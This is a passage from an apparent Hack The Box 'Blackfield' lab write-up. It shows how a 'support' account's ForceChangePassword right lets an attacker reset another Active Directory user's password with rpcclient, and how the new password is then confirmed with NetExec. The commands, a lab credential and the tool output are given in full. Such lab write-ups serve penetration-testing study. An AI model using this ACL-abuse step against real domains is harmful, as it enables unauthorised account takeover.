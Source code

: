 Now we can see that the user support has ForceChangePassword rights over the user audit2020. This means we can change the password of the user audit2020 using the user support without needing to know the current password of the user audit2020.
![The user support has ForceChangePassword rights over the user audit2020](/images/bh_blackfield_4.png)

## Changing the Password of the user audit2020 using rpcclient
We can change the password of the user audit2020 using rpcclient with the following commands:
```shell
rpcclient 10.129.191.43 -U "support"
# Password for [WORKGROUP\support]: #00^BlackKnight
rpcclient $> setuserinfo2 audit2020 23 Password123
```
Now we successfully changed the password of the user audit2020 to Password123.

```shell
# Note: Running only setuserinfo2 without parameter will show the usage
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
```
We can check if the new credentials are valid using NetExec:
```shell
nxc smb 10.129.191.43 -u audit2020 -p Password123
```

```shell
SMB         10.129.191.43   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.191.43   445    DC01             [+] BLACKFIELD.local\audit2020:Password123
```
